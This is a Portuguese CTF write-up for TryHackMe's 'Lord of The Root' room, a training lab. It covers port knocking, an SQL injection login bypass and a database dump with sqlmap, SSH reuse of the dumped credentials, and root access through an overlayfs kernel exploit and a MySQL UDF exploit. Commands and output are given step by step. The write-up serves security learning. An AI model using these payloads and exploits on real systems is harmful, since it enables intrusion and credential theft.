

## [Lord of The Root](https://tryhackme.com/room/lordoftheroot) [PT-BR]

---

  


De começo podemos analisar as *tags* deste CTF, **portknocking** e **nmap**, então podemos interpretar essas *tags* como uma ajuda nós ajudar *(Que vão poupar algum tempo de enumeração e nos dar um norte...)*

> **Port Knocking** é um sistema aonde é necessário você enviar dados para uma porta especifica *(Ou mais de uma)* e em uma certa sequencia para então o servidor liberar acesso à outras portas. Não é um sistema muito utilizado, pois é uma falsa segurança de que o invasor não conseguirá descobrir a porta escondida.

Após dar *Deploy* na maquina, vamos rodar o **nmap** para mapear as portas:

##### > nmap 10.10.88.243 -p- -T4 --min-rate=20000

```bash
Not shown: 46041 filtered ports, 19493 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
```

Vemos que apenas a porta `22` está abertas, bom, só com o **SSH** vamos acessa-lo para ver se nós conseguimos alguma informação e tambem porque não temos muitas opções nesse momento:

##### > ssh teste@10.10.88.243


`Knock Friend to Enter` e `Easy as 1,2,3` é as informações que o **SSH** nós dá, no começo desse Write-up eu disse que as *tags* do CTF seriam uma dica para nós, conseguimos atrelar as informações **Bata amigo para entrar** e **fácil como 1,2,3** deduzindo que é necessário fazermos um **knocking** nas portas 1,2 e 3 em sequência. Conseguimos fazer isso facilmente com o **nmap** com as flags **-r** *(Para ele fazer o scan em sequência e não com as portas escolhidas aleatóriamente)*:

##### > nmap 10.10.88.243 -p1,2,3 -r 

Agora vamos rodar o **nmap** para vermos se alguma porta escondida foi aberta:

##### > nmap 10.10.88.243 -p- -T4 --min-rate=20000

```bash
Not shown: 46041 filtered ports, 19492 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
1337/tcp open  waste
```

Vemos que a porta `1337` foi aberta! Iremos rodar um outro **nmap** com as *flags* **-sC** *(para rodar os scripts padrão do nmap)* e **-sV** (para conseguir informação sobre a versão/serviço da porta) nestas portas abertas, para conseguir mais detalhes sobre as portas escaneadas:

##### > nmap 10.10.88.243 -p22,1337 -sC -sV -T4 --min-rate=20000

```sh
22/tcp   open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 3c:3d:e3:8e:35:f9:da:74:20:ef:aa:49:4a:1d:ed:dd (DSA)
|   2048 85:94:6c:87:c9:a8:35:0f:2c:db:bb:c1:3f:2a:50:c1 (RSA)
|   256 f3:cd:aa:1d:05:f2:1e:8c:61:87:25:b6:f4:34:45:37 (ECDSA)
|_  256 34:ec:16:dd:a7:cf:2a:86:45:ec:65:ea:05:43:89:21 (ED25519)
1337/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Notamos que está rodando o Apache na porta `1337`, ao acessar deparamos com uma imagem no *path* `/images/iwilldoit.jpg`, mas que não contem nada de interessante no código-fonte da página ou na imagem. Se acessarmos **/images/** está com **Directory Listing** liberado, mas não tem nada útil nas imagens contidas nesse diretório que nós podemos aproveitar, após verificar isso tentei fazer uma enumeração manual de alguns diretórios web, acessei `/index.php`:


E tambem notei que qualquer página que você tenta acessar aleatóriamente ele retorna essa mesma resposta, ou seja, essa página na verdade é um tratamento de **HTTP 404**, então fui ver o seu código-fonte e existe um comentário interessante dentro dele:

```html
<html>

<!--THprM09ETTBOVEl4TUM5cGJtUmxlQzV3YUhBPSBDbG9zZXIh>
</html>
```

Primeira coisa que eu fiz foi jogar esse texto `THprM09ETTBOVEl4TUM5cGJtUmxlQzV3YUhBPSBDbG9zZXIh` em um identificador de **hash** *(Pois isso me parecia algum tipo de codificação)*, eu usei o site **hashes** pelo link https://hashes.com/en/tools/hash_identifier e ele me retornou a seguinte mensagem:

```css
THprM09ETTBOVEl4TUM5cGJtUmxlQzV3YUhBPSBDbG9zZXIh - Possible algorithms: Base64 Encoded String
```

Descodificando em `base64` pelo bash ele me retorna um outro **base64**, então descodifico ele também e ele me retorna um *path* interessante:

```python
> echo 'THprM09ETTBOVEl4TUM5cGJtUmxlQzV3YUhBPSBDbG9zZXIh' | base64 -d Lzk3ODM0NTIxMC9pbmRleC5waHA= Closer!
> echo 'Lzk3ODM0NTIxMC9pbmRleC5waHA=' | base64 -d 
/978345210/index.php
```

Acessando o arquivo `/978345210/index.php` ele retorna uma tela de **login** simples:

 

Verifiquei o código-fonte da página para tentar achar alguma coisa, mas não tinha nada interessante. Logo pensei em uma ferramenta que eu em rodar nessa situação que foi o **sqlmap**, primeiro preciso analisar como é a requisição *POST* para eu rodar baseado nela, iniciei o **burpsuite**, coloquei o *proxy* no browser, iniciei a página, escrevi qualquer *user* e *password*, e o resultado foi esse:

```bash
POST /978345210/index.php HTTP/1.1
Host: 10.10.88.243:1337
Content-Length: 36
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.88.243:1337
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.89 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.10.88.243:1337/978345210/index.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=c1rst9u3cdeupo62lc7l717pp3
Connection: close

username=a&password=a&submit=+Login+  
```

A única coisa que importa para nós é a ultima linha `username=a&password=a&submit=+Login+`, a partir disso iniciei o **sqlmap** com as flags de **--data** com a requisição *POST* e o **--dump-all **para extrair todos dados se for possível extrair dados por **SQLi**:

##### **> sqlmap -u 'http://10.10.88.243:1337/978345210/index.php' --data="username=a&password=a&submit=+Login+" --dump-all **

E tem um certo momento aonde o **sqlmap** me retorna um aviso de redirecionamento para o *path* `/978345210/profile.php` com o seguinte *warning*: 

```
got a 302 redirect to 'http://10.10.88.243:1337/978345210/profile.php'. Do you want to follow? [Y/n] 
```

Isso me indicaria um suposto **bypass** na autenticação do *login*, então eu resolvi redirecionar o **sqlmap** para **BURP** analisar qual foi exatamente a requisição *POST* que deu o **bypass**, usando a *flag* de **--proxy** no **sqlmap** para mandar todos os pacotes do **script** para anlisar no **burp**, rodando então: 

##### > sqlmap -u 'http://10.10.88.243:1337/978345210/index.php'																			    --data="username=a&password=a&submit=+Login+"--dump-all --proxy http://127.0.0.1:8080

e verificando no **BURP** nós encontramos a requisição *POST* com o **bypass**.


`username=a%27+UNION+ALL+SELECT+NULL%2CNULL--+-&password=a&submit=+Login+`

Vamos jogar esse mesmo *POST* no navegador pelo **BURP** que ele retornará a página `profile.php` para nós e esse é o resultado da página:


**Sim!** **Nada interessante :(** na verdade isso é uma distração da verdadeira falha, vamos aproveitar que verificamos que existe uma falha de **SQL Injection** no sistema de login dessa aplicação e rodaremos o **sqlmap** no arquivo aonde ele faz a requisição *POST*, que na verdade é no arquivo `/978345210/login.php`:

##### > sqlmap -u 'http://10.10.88.243:1337/978345210/login.php' --dump-all															 --data="username=a&password=a&submit=+Login+" --threads 7

```css
Database: Webapp
Table: Users
[5 entries]
+------+----------+------------------+
| id   | username | password         |
+------+----------+------------------+
| 1    | frodo    | iwilltake####### |
| 2    | smeagol  | MyPrecious####   |
| 3    | arag###  | AndMySw###       |
| 4    | legolas  | AndMy###         |
| 5    | gi###    | AndMy###         |
+------+----------+------------------+
```

Tem um Banco de dados que me interessa, chamado `Webapp` com os usuários e senhas do servidor web, mas se a página **profile.php** não possui nada que seja possível subir um **payload**, eu pensei em testar esses usuários e senhas no **SSH**, para ver se eu consigo algum acesso remoto *(Algumas vezes os administradores dos sites usam o mesmo login e senha na parte de login do site e como usuario e senha na máquina do servidor)*.

**Opa!** Conseguimos conectar pelo segundo usuário `smeagol:MyPrecious####`!



### 1. Exploit no Kernel

Fazendo uma enumeração de Linux, com alguma ferramenta *(Por exemplo o [LinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS), um ótimo script de enumeração de sistemas Linux)* ou rodando alguns comandos na mão mesmo, notaremos que existe uma falha forte, mas que é facíl de ser identificada e explorada, rodando o comando **uname -a** para mostrar informações do sistema e do kernel:

```bash
smeagol@LordOfTheRoot:~$ uname -a                                                                        
Linux LordOfTheRoot 3.19.0-25-generic #26~14.04.1-Ubuntu SMP Fri Jul 24 21:18:00 UTC 2015 i686 i686 i686 GNU/Linux
```

Podemos verificar que a versão `3.19.0-25-generic` do **kernel** e também junto com a versão do **Ubuntu** `14.04-1` possui um forte **exploit** de **overlayfs**, usando a ferramenta ***searchsploit*** ou procurando no site  ***exploit-db*** conseguimos achar esse **exploit**: 


###### Exploit-db: https://www.exploit-db.com/exploits/39166

Após baixar o arquivo, vou até a pasta aonde ele está localizado pela minha máquina, e executo o **python** no diretorio para abrir um servidor local para eu baixar esse arquivo pelo acesso remoto do servidor:

##### > python3 -m http.server 8001 --bind 10.9.45.65

E pela máquina do servidor que eu tenho a *shell* eu faço os seguintes passos: vou até a *home* do usuario, uso o **wget** para baixar o exploit em C, então uso **GCC** para compilar o exploit e simplesmente rodo ele conseguindo o usuario de root!

```bash
smeagol@LordOfTheRoot:~$ cd ~                                                           
smeagol@LordOfTheRoot:~$ wget 10.9.45.65:8001/39166.c
--2020-07-28 23:08:51--  http://10.9.45.65:8001/39166.c
Connecting to 10.9.45.65:8001... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2789 (2.7K) [text/plain]
Saving to: ‘39166.c’

100%[================================================================>] 2,789 in 0s      

2020-07-28 23:08:51 (290 MB/s) - ‘39166.c’ saved [2789/2789]

smeagol@LordOfTheRoot:~$ gcc -o xpl 39166.c
smeagol@LordOfTheRoot:~$ ./xpl 
root@LordOfTheRoot:~# id
uid=0(root) gid=1000(smeagol) groups=0(root),1000(smeagol)
root@LordOfTheRoot:~# cd /root/
root@LordOfTheRoot:/root# ls 
buf  buf.c  Flag.txt  other  other.c  switcher.py
root@LordOfTheRoot:/root# cat Flag.txt 
*********************
```

### 2. Serviço MySql 

Se rodarmos um **ps aux | grep mysql** para ver o estado do **MySql**, vemos que ele está rodando como **root**, isso é algo desnecessario e que pode comprometer o servidor que muitos administradores cometem, rodamos **mysql -V** para ver a versão do mysql se é vulneravel à alguma exploração:


Versão `5.5.44` conseguimos usar um **exploit** de **PrivEsc** do mysql quando ele está rodando como root, primeiro vamos conseguir o login/senha do mysql dando **cat** no arquivo `/var/www/978345210/login.php`:


Vamos fazer os mesmos passos do que no método passado, baixar o [EXPLOIT](https://www.exploit-db.com/exploits/1518), na minha máquina, abrir um servidor com o python, baixar na máquina local e fazer os passos para explorar:

```bash
duck@archlinux ~> wget https://www.exploit-db.com/raw/1518
Saving to: '1518'
2020-07-30 13:15:34 (81.9 MB/s) - '1518' saved [3378/3378]

duck@archlinux ~> mv 1518 raptor_udf2.c
duck@archlinux ~> python3 -m http.server 8001 --bind 10.9.45.65
Serving HTTP on 10.9.45.65 port 8001 (http://10.9.45.65:8001/) ...
```

Pelo servidor executamos o **wget** para baixar esse arquivo, usamos o gcc, logamos no mysql com o usuario e senha do **login.php**:

```bash
smeagol@LordOfTheRoot:~$ wget 10.9.45.65:8001/raptor_udf2.c
Connecting to 10.9.45.65:8001... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3378 (3.3K) [text/plain]
Saving to: ‘raptor_udf2.c’

100% [===========================================================>] 

2020-07-30 10:16:40 (200 MB/s) - ‘raptor_udf2.c’ saved [3378/3378]

smeagol@LordOfTheRoot:~$ gcc -g -c raptor_udf2.c 
smeagol@LordOfTheRoot:~$ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
smeagol@LordOfTheRoot:/var/www/978345210$ mysql -u root -p
```

Depois de entrar no modo interativo do **mysql** vamos executar os seguintes passos para conseguir a *flag* e acesso root (Os passos são mostrados em comentarios dentro do exploit baixado, apenas é necessario fazer algumas adaptações para funcionar):

```mysql
mysql> use mysql;
Database changed

mysql> create table foo(line blob);

mysql> insert into foo values(load_file('/home/smeagol/raptor_udf2.so'));

mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';

mysql> create function do_system returns integer soname 'raptor_udf2.so';

mysql> select * from mysql.func;
+-----------+-----+----------------+----------+
| name      | ret | dl             | type     |
+-----------+-----+----------------+----------+
| do_system |   2 | raptor_udf2.so | function |
+-----------+-----+----------------+----------+

mysql> select do_system('cat /root/* > /tmp/out; chown smeagol.smeagol /tmp/out');
+---------------------------------------------------------------------+
| do_system('cat /root/* > /tmp/out; chown smeagol.smeagol /tmp/out') |
+---------------------------------------------------------------------+
|                                                                   0 |
+---------------------------------------------------------------------+

mysql> \! sh
$ cat /tmp/out
“There is only one Lord of the Ring, only one who can bend it to his will. And he does not share power.”
– **********
...
```

**CTF Concluído**! existe algumas outras maneiras de fazer **privesc**, como **buffer overflow** em um arquivo no diretório `/SECRET/door3/file`, provavelmente irei editar esse write-up para incluir esse modo de escalação de privilégio, mas como existe essa falha no **kernel** *(Muito mais simples de se aplicar também...)* e no **MySql** aproveitei elas para conseguir o **root**. Bom essa é minha primeira experiência em escrever write-up, se alguém precisar podem entrar em contato comigo para esclarecermos alguma dúvida, espero que tenham gostado! **: )**

### Link: **https://tryhackme.com/room/lordoftheroot** | Telegram: *@le0nard01*

